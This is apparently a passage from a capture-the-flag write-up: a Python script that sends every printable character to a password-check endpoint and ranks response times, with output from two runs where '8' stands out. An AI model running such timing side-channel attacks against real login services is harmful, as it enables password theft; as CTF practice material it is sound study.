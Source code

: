 ```python
import requests
import string
import json

def send_request(payload):
    headers = {'User-Agent': 'ed9ae2c0-9b15-4556-a393-23d500675d4b'}
    r = requests.post("http://35.246.158.51:8070/auth/v1_1", json={"Seed":"b27098b891ae4eb29b3d57b8f0b1279d", "Password": payload}, headers = headers)
    j = json.loads(r.text)
    return j
    
l = []
for c in string.printable:
    r = send_request(c + "#")
    l.append((r["Time"], c))
print(sorted(l, reverse = True))
```

Output:

```console
root@kali:/media/sf_CTFs/mossad/1# python timing.py
[(30297821, '8'), (299177, '^'), (225591, 'g'), (220877, 'J'), (214820, '9'), (199345, 'o'), (195457, '"'), (195241, '\n'), (194002, ','), (193293, '\r'), (190532, '\t'), (188643, 's'), (188146, 'V'), (186111, 'T'), (185161, 'N'), (185028, 'Y'), (183405, 'X'), (183234, 'l'), (182483, '6'), (182456, 'b'), (182241, '<'), (181334, '!'), (178178, 'G'), (178124, 'x'), (177788, 'e'), (177576, '$'), (176918, 'C'), (176083, 'j'), (174459, ')'), (174277, 'S'), (173024, 'E'), (172562, 'O'), (172215, 'k'), (172177, 'r'), (171948, ':'), (171693, 'W'), (171325, 'P'), (169705, 'q'), (169170, '4'), (169059, '\x0c'), (168927, '7'), (168658, '}'), (168632, '|'), (168210, 'z'), (168172, ' '), (168043, '>'), (166839, '&'), (166585, '5'), (166238, 'u'), (165316, '2'), (165023, 'A'), (164470, 'B'), (164381, 'D'), (164035, '*'), (163765, '\x0b'), (163733, '#'), (163578, 'i'), (163529, '?'), (163259, 'm'), (162995, 'U'), (162713, "'"), (162601, '`'), (162267, 'y'), (161912, 'K'), (161689, '1'), (161392, 'c'), (161292, 'w'), (161221, '{'), (160424, 'h'), (159986, 'I'), (159927, '('), (159717, '+'), (159480, '0'), (159385, ']'), (158972, 'H'), (158693, '~'), (158634, '3'), (158297, 'n'), (158277, '='), (158116, 'p'), (158082, 'M'), (158059, 'F'), (158044, 'Q'), (157507, 'Z'), (157177, '%'), (157097, '/'), (156999, '['), (156588, '_'), (156581, 'd'), (156274, 'f'), (156232, 'a'), (155671, 't'), (155460, 'R'), (154342, '-'), (154146, '\\'), (153440, '@'), (151308, 'v'), (150976, 'L'), (149162, ';'), (148828, '.')]
root@kali:/media/sf_CTFs/mossad/1# python timing.py
[(30255514, '8'), (255535, 'l'), (208315, 'v'), (205267, 'f'), (200087, '^'), (197082, 'q'), (195745, 'r'), (194660, 's'), (186805, 'B'), (185840, '3'), (181089, '4'), (180780, '?'), (180144, 'O'), (178863, 'a'), (177931, 'p'), (177763, '_'), (177756, 'J'), (176735, "'"), (176232, '!'), (175732, 'I'), (175128, 'R'), (174867, '@'), (174858, '9'), (174730, 'A'), (174675, '"'), (173457, 'j'), (173435, '#'), (172652, 'L'), (172419, ':'), (172269, 'o'), (171940, 'g'), (171812, '+'), (171080, '-'), (170780, 'S'), (170205, 'k'), (169251, '&'), (169217, 'M'), (168910, 'Z'), (167135, '<'), (167123, '\x0c'), (167101, 'P'), (167100, '1'), (166640, 'm'), (166395, '\x0b'), (166386, '%'), (165335, ','), (164965, 'x'), (164965, 'c'), (164864, 'C'), (164136, '\t'), (163903, '5'), (163892, 'y'), (163660, '*'), (163508, '.'), (163465, '`'), (163437, 'G'), (163328, 'Q'), (162983, 'F'), (162730, 'X'), (162463, 'b'), (162249, '2'), (161992, '>'), (161910, 'w'), (161624, 'u'), (161342, '/'), (161326, 'T'), (161166, '0'), (160766, '('), (160611, 'V'), (159719, 'H'), (159149, ' '), (158566, 'U'), (158408, '['), (158281, 'z'), (158154, '$'), (157983, '~'), (157642, 'K'), (157615, 'd'), (157545, '6'), (157347, '7'), (157185, '|'), (157041, '\r'), (156871, 'D'), (156260, '{'), (156160, ')'), (156053, 'e'), (155840, '\\'), (155520, 'h'), (155516, '='), (155361, 'Y'), (155184, 'E'), (155151, 'i'), (154420, 'W'), (154251, '}'), (153745, ']'), (149470, '\n'), (148354, 'n'), (147696, ';'), (147150, 'N'), (145426, 't')]
```
